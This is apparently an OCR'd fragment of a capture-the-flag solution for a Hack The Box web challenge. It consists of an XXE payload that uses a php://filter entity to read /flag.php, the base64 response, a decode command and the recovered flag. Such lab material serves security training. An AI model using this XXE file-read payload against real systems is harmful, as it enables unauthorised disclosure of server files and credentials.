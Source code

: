 <!DOCTYPE name [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=/flag.php">
]>

            <root>
            <name>&company;</name>
            <details>b</details>
            <date>

Event 'PD9waHAgJGZsYWcgPSAiSFRCe200NTczcl93M2JfNDc3NGNrM3J9IjsgPz4K' has been created.

echo -n 'PD9waHAgJGZsYWcgPSAiSFRCe200NTczcl93M2JfNDc3NGNrM3J9IjsgPz4K' | base64 -d 

<?php $flag = "HTB{m4573r_w3b_4774ck3r}"; ?>

